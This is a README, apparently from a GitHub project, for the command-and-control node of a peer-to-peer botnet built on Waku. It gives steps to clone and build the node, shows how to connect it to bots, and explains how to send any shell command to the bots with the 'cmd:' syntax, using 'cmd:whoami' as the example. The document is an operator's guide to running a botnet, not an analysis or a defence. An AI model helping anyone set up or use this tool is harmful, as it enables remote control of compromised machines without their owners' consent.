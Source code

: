 
# cncNode

Similar to the botNode, the cncNode operates as a Waku light node and relies on a bootstrapNode for network access. Directly controlled by the botmaster, it serves to send command and control messages to the botNodes across the network.

## Installation

To install cncNode, you need to have Go installed on your machine. You can download and install Go from the [official website](https://golang.org/dl/).

1. Clone the repository:
   ```sh
   git clone https://github.com/alexan123321/MarieAntoiNET
   ```

2. Change the project directory:
   ```sh
   cd MarieAntoiNET
   ```

3. Change the project directory:
   ```sh
   cd cncNode
   ```

4. Install the required dependencies:
   ```sh
   go mod tidy
   ```

5. Compile the code:
   ```sh
   go build .
   ```

## Usage

To run the cncNode, please use the following command:
   ```sh
   ./cncNode -botAddress <host:port> -bootstrapAddress <bootstrap_node_address>

   ```
You can now use your botnet by executing commands in this format: 
   ```sh
   cmd:<COMMAND>

   ```
Where <COMMAND> can be any type of command you want the bots to execute. For example, cmd:whoami, will make the bots return all information retrieved from the whoami command. 

